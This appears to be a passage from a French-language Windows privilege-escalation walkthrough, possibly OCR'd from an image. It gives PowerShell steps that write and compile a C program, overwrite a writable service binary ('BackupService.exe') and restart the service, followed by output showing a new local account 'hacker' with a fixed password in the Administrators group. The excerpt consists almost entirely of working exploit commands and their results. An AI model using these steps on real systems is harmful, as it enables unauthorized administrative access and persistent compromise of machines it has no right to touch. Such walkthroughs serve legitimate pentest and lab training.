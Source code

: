 **Commande pour exploiter le service vulnérable :**
```powershell
# Créer un exécutable malveillant
echo '
#include <stdlib.h>
int main() {
    system("net user hacker Password123! /add");
    system("net localgroup Administrators hacker /add");
    return 0;
}
' > C:\\Temp\\evil.c

# Compiler l'exécutable
gcc C:\\Temp\\evil.c -o "C:\\Program Files\\Backup\\BackupService.exe"

# Redémarrer le service
sc start CustomBackupService
```

**Sortie typique :**
```
C:\Users\web>sc start CustomBackupService
[SC] StartService FAILED 1053:

The service did not respond to the start or control request in a timely fashion.

C:\Users\web>net user
User accounts for \\WEBSERVER

-------------------------------------------------------------------------------
Administrator            DefaultAccount           Guest
hacker                   WDAGUtilityAccount       web
The command completed successfully.

C:\Users\web>net user hacker
User name                    hacker
Full Name
Comment
User's comment
Country/region code          000 (System Default)
Account active               Yes
Account expires              Never

Password last set            4/2/2025 7:45:12 PM
Password expires             Never
Password changeable          4/2/2025 7:45:12 PM
Password required            Yes
User may change password     Yes

Workstations allowed         All
Logon script
User profile
Home directory
Last logon                   Never

Logon hours allowed          All

Local Group Memberships      *Administrators
Global Group memberships     *None
The command completed successfully.
```
